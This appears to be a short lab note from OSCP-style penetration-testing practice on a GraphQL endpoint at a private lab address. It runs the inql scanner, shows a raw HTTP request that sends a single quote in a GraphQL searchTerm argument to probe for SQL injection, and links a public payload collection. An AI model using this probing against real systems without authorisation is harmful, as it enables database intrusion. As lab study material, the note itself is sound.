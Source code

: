 # Graph
### Personal opionion
https://github.com/A1vinSmith/OSCP-PWK/wiki#holy-war-on-fuzzing-tools

### Install inql which github not working for me
`pipx install inql`

and run it

```
inql -t http://192.168.80.201/graphql
```

### Burp post app/json
```
POST /graphql HTTP/1.1
Host: 192.168.80.201
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Type: application/json
Content-Length: 40

{"query":"{ users(searchTerm: \"'\") }"}
```

### Payloadallthethings won this round
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#sql-injection

### Let's SQL injection then

